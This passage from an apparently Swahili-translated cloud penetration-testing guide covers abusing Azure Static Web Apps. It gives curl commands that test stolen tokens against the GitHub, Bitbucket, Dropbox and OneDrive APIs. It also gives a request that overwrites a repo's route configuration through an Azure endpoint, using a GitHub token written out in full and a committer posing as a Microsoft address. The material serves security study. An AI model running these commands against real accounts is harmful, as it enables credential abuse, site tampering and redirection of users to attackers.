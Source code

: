 Hapa kuna mifano ya amri za kuangalia tokeni:
```bash
# GitHub – List Repositories
curl -H "Authorization: token <token>" \
-H "Accept: application/vnd.github.v3+json" \
https://api.github.com/user/repos

# Bitbucket – List Repositories
curl -H "Authorization: Bearer <token>" \
-H "Accept: application/json" \
https://api.bitbucket.org/2.0/repositories

# Dropbox – List Files in Root Folder
curl -X POST https://api.dropboxapi.com/2/files/list_folder \
-H "Authorization: Bearer <token>" \
-H "Content-Type: application/json" \
--data '{"path": ""}'

# OneDrive – List Files in Root Folder
curl -H "Authorization: Bearer <token>" \
-H "Accept: application/json" \
https://graph.microsoft.com/v1.0/me/drive/root/children
```
### Overwrite file - Overwrite routes, HTML, JS...

Ni uwezekano wa **kuandika upya faili ndani ya repo ya Github** inayoshikilia programu kupitia Azure kwa kutumia **Github token** kutuma ombi kama ifuatavyo ambalo litabainisha njia ya faili ya kuandika upya, maudhui ya faili na ujumbe wa commit.

Hii inaweza kutumiwa vibaya na washambuliaji kubadilisha **maudhui ya programu ya wavuti** ili kutoa maudhui mabaya (kuiba akidi, funguo za mnemonic...) au tu **kuhamasisha njia fulani** kwa seva zao wenyewe kwa kuandika upya faili ya `staticwebapp.config.json`.

> [!WARNING]
> Kumbuka kwamba ikiwa mshambuliaji atafanikiwa kuharibu repo ya Github kwa njia yoyote, wanaweza pia kuandika upya faili moja kwa moja kutoka Github.
```bash
curl -X PUT "https://functions.azure.com/api/github/updateGitHubContent" \
-H "Content-Type: application/json" \
-d '{
"commit": {
"message": "Update static web app route configuration",
"branchName": "main",
"committer": {
"name": "Azure App Service",
"email": "donotreply@microsoft.com"
},
"contentBase64Encoded": "ewogICJuYXZpZ2F0aW9uRmFsbGJhY2siOiB7CiAgICAicmV3cml0ZSI6ICIvaW5kZXguaHRtbCIKICB9LAogICJyb3V0ZXMiOiBbCiAgICB7CiAgICAgICJyb3V0ZSI6ICIvcHJvZmlsZSIsCiAgICAgICJtZXRob2RzIjogWwogICAgICAgICJnZXQiLAogICAgICAgICJoZWFkIiwKICAgICAgICAicG9zdCIKICAgICAgXSwKICAgICAgInJld3JpdGUiOiAiL3AxIiwKICAgICAgInJlZGlyZWN0IjogIi9sYWxhbGEyIiwKICAgICAgInN0YXR1c0NvZGUiOiAzMDEsCiAgICAgICJhbGxvd2VkUm9sZXMiOiBbCiAgICAgICAgImFub255bW91cyIKICAgICAgXQogICAgfQogIF0KfQ==",
"filePath": "staticwebapp.config.json",
"message": "Update static web app route configuration",
"repoName": "carlospolop/my-first-static-web-app",
"sha": "4b6165d0ad993a5c705e8e9bb23b778dff2f9ca4"
},
"gitHubToken": "gho_1OSsm834ai863yKkdwHGj31927PCFk44BAXL"
}'
```
### Microsoft.Web/staticSites/config/write
